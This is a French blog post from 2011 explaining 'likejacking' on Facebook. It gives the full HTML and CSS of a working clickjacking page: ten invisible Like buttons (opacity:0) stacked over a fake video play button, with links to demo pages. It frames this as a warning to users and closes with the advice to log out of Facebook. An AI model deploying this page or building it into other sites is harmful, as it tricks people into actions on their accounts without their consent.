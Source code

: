 ```yaml
---
ID: 578
post_title: 'Comment voler des &laquo;&nbsp;Like&nbsp;&raquo; sur Facebook'
author: Jérémy Levallois
post_date: 2011-03-06 14:52:02
post_excerpt: ""
layout: post
permalink: >
  http://www.karganys.fr/programmation/php/comment-voler-des-like-sur-facebook/
published: true
tc-thumb-fld:
  - 'a:2:{s:9:"_thumb_id";b:0;s:11:"_thumb_type";s:10:"attachment";}'
---
```

<div class="wp-caption alignnone" style="width: 190px;"><a href="http://www.flickr.com/photos/tinaoable/5499176903/"><img src="http://farm6.static.flickr.com/5091/5499176903_0281b03e50_m.jpg" title="Thumbs up" alt="Thumbs up" width="180" height="240" /></a><p class="wp-caption-text"><a href="http://www.flickr.com/photos/tinaoable/5499176903/">Thumbs up</a> by <a href="http://www.flickr.com/photos/tinaoable/">TinaOable</a></p></div>

Avant toute chose, cet article à pour but <strong>d'informer</strong> les utilisateurs de Facebook des dangers que ce dernier laisse passer.

Vous avez regardé une vidéo qu'un de vos contacts à mis sur Facebook, et étrangement vous avez "aimé" la vidéo sans le vouloir ?
Je vais vous montrer comment vous pouvez très facilement voler des "Like" de vos liens sur Facebook.

Facebook autorise les développeurs web à utiliser un plugin social qui permet d’interagir, depuis un site extérieur, à votre compte Facebook.
Cela va du Bouton Like, aux commentaires directs utilisant votre véritable nom et prénom !

Maintenant, en utilisant une faille à ce système, il est possible de cacher aux visiteurs des boutons Like.
Pour se faire, il faut avec un zone où les utilisateurs devront cliquer, par exemple le bouton play d'une fausse vidéo. C'est cet exemple que je vais montrer.

<a href="http://www.karganys.fr/wp-content/uploads/2011/03/dontshowfacebooklikebutton.html">Cliquez ici pour voir l'exemple</a>. Si vous cliquez sur le boutons Play, vous pourrez voir sur votre compte Facebook que vous aimez la page http://www.karganys.fr/php/comment-voler-des-like-sur-facebook
<strong>Tant que vous ne cliquerez pas sur le bouton Play, il ne se passera rien sur votre compte Facebook, n'ayez pas peur :)</strong>

Regardons plus en détail le code source :

<pre lang="html4strict"><html>
	<head>
		<link rel="stylesheet" href="mycss.css" type="text/css">
	</link></head>
	<body>
		<div id="play_img">
			<div style="width:120px;height:115px;opacity:0">
				<div style="width:56px;height:115px;margin-left:7px;float:left">
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
				</div>

				<div style="width:57px;height:115px;float:left">
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
					<script src="http://connect.facebook.net/fr_FR/all.js#xfbml=1"></script><fb:like href="http://www.karganys.fr/php/comment-voler-des-like-sur-facebook" layout="button_count" show_faces="true" font="tahoma"></fb:like>
				</div>
			</div>
		</div>
	</body>
</html></pre>

et le css associé
<pre lang="css">#play_img{width:124px;height:111px;padding-top:4px;margin-left:248px;margin-top:135px;background:url('play.png') no-repeat top left}</pre>

Les balises script affichent un bouton Like avec en paramètre la page à aimer. Nous surchargeons l'image avec des boutons Like.
Ensuite, nous cachons toutes les images des boutons Like avec l'attribut CSS <strong>opacity:0</strong>, ce qui le rend "invisible" à l'œil, mais toujours présent.

<a href="http://www.karganys.fr/wp-content/uploads/2011/03/showfacebooklikebutton.html">Vous pouvez voir ici la même page</a>, mais sans l'attribut opacity

Cette faille est utilisée par quelques sites, comme AmbianceBuzz.net qui, soit dit en passant, averti en bas de sa page
<blockquote>Le bouton lecture de nos vidéos peut éventuellement partager notre vidéo à vos amis sur Facebook</blockquote>

Comment contourner ça ? Pour l'instant, la seule solution possible est de <strong>se déconnecter de Facebook dès lors que l'on ne l'utilise plus</strong>.
Ou encore mieux :<strong> Fermer son compte Facebook</strong> ...

Source : Code source d'AmbianceBuzz.net